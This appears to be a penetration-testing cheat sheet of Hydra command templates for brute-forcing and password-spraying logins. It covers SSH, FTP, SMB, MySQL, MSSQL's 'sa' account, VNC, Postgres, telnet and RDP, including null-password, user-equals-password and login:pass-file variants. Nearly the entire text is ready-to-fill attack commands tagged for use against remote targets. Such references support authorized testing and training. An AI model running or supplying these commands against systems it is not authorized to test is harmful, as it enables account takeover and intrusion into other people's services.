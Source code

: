 # Hydra

% bruteforce, access

## Hydra - ssh - userlist and password list - 22
#plateform/linux #target/remote #protocol/ssh #port/22 #cat/ATTACK/BRUTEFORCE-SPRAY 

```bash
hydra -L <userlist> -P <passlist> <ip> ssh 
```

## Hydra - ssh - user and password  - 22
#plateform/linux #target/remote #protocol/ssh #port/22 #cat/ATTACK/BRUTEFORCE-SPRAY 

```bash
hydra -l <user|root> -p <password|root> <ip> ssh 
```

## Hydra - ssh - user=password - 22
#plateform/linux #target/remote #protocol/ssh #port/22 #cat/ATTACK/BRUTEFORCE-SPRAY 

```
hydra -L <userlist> -e s <ip> ssh 
```

## Hydra - ssh - null password - 22
#plateform/linux #target/remote #protocol/ssh #port/22 #cat/ATTACK/BRUTEFORCE-SPRAY 

```
hydra -l <user|root> -e n <ip> ssh 
```

## Hydra - ssh - password=reverseuser - 22
#plateform/linux #target/remote #protocol/ssh #port/22 #cat/ATTACK/BRUTEFORCE-SPRAY 

```
hydra -L <userlist> -e r <ip> ssh 
```

## Hydra - ssh - file "login:pass" format - specify port
#plateform/linux #target/remote #protocol/ssh #port/custom #cat/ATTACK/BRUTEFORCE-SPRAY 

```
hydra -t 4 -s <port> -C <file_login_pass> <ip> ssh 
```

## Hydra - ftp - 21 
#protocol/ftp #port/21 #plateform/linux #target/remote  #cat/ATTACK/BRUTEFORCE-SPRAY 

```
hydra -L <userlist> -P <passlist> <ip> ftp 
```

## Hydra - smb - 445
#protocol/smb #port/445 #plateform/linux #target/remote #cat/ATTACK/BRUTEFORCE-SPRAY 

```
hydra -L <userlist> -P <passlist> <ip> smb
```

## Hydra - mysql - 3306
#protocol/mysql #port/3306 #plateform/linux #target/remote #cat/ATTACK/BRUTEFORCE-SPRAY 

```
hydra -L <userlist> -P <passlist> <ip> mysql 
```
## Hydra - mssql - 1433
#protocol/mssql #port/1433 #plateform/linux #target/remote #cat/ATTACK/BRUTEFORCE-SPRAY 
```
hydra -l sa -P <passlist> <ip> -s <port|1433> mssql
```

## Hydra - vnc - 5900
#protocol/vnc #port/5900 #plateform/linux #target/remote #cat/ATTACK/BRUTEFORCE-SPRAY 

```
hydra -L <userlist> -P <passlist> <ip> vnc 
```

## Hydra - postgres - 5432
#protocol/postgres #port/5432 #plateform/linux #target/remote #cat/ATTACK/BRUTEFORCE-SPRAY 

```
hydra -L <userlist> -P <passlist> <ip> postgres
```

## Hydra - telnet - 23
#protocol/telnet #port/23 #plateform/linux #target/remote #cat/ATTACK/BRUTEFORCE-SPRAY 

```
hydra -L <userlist> -P <passlist> <ip> telnet 
```

## bruteforce RDP with userlist and password list
#plateform/linux #target/remote #protocol/rdp #port/3389 #cat/ATTACK/BRUTEFORCE-SPRAY 
```bash
hydra -L <userlist> -P <passlist> rdp://<ip>
```

## bruteforce RDP with user and password list
#plateform/linux #target/remote #protocol/rdp #port/3389 #cat/ATTACK/BRUTEFORCE-SPRAY 
```bash
hydra -l <user> -P <passlist> rdp://<ip>
```

## RDP password spray
#plateform/linux #target/remote #protocol/rdp #port/3389 #cat/ATTACK/BRUTEFORCE-SPRAY 
```bash
hydra -L <userlist> -p <password> rdp://<ip>
```